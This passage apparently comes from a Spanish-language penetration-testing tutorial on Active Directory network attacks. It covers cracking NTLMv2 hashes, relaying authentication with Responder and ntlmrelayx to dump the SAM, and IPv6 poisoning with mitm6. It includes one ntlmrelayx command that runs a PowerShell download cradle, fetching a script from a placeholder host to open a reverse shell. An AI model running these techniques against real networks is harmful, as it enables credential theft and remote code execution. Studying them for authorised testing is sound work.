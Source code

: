 Copiamos ese hash NTLMv2 y vamos a crackear el hash con john, si la contraseña es lo suficientemente poco segura la podremos sacar. Una vez sacada la deberemos de validar con la herramienta `crackmapexec`

<img src="/assets/images/Active-Directory/hash.png">

Si nos pone un **`(Pwned!)`** podremos ejecutar comandos en la máquina porque la contraseña es privilegiada. En ese caso podemos realizar otro ataque de envenenamiento por el que vamos a poder dumpear la sam del equipo o ejecutar cualquier otro comando.

Vamos a volver a envenenar el tráfico, pero esta vez vamos a **editar el Responder.conf para poner [SMB=Off, HTTP=Off]**, después ejecutamos la siguiente herramienta con los siguientes parámetros

<img src="/assets/images/Active-Directory/ntlmrelayx.png">

En el momento en el que se autentique va a ejecutar ese mismo comando aprovechandose de ese autenticación y nos dumpea la sam. También podemos especificar comandos a ejecutar con el siguiente comando:

Por ejemplo ejecutarse un archivo de powershell que te entable una reverse_shell

```bash
ntlmrelayx.py -tf targets.txt -smb2support -c "powershell IEX(New-Object Net.WebClient).downloadString('http://IP:PORT/PS.ps1')"
```

`IPV6`

Para poder envenenar el tráfico por IPV6 deberemos de utilizar la herramienta `mitm6` para a través de ella envenenar el DNS, la puerta de enlace y demás para que posteriormente en el momento que busquen un recurso compartido que no exista y el hash del usuario es privilegiado podremos ejecutar comandos
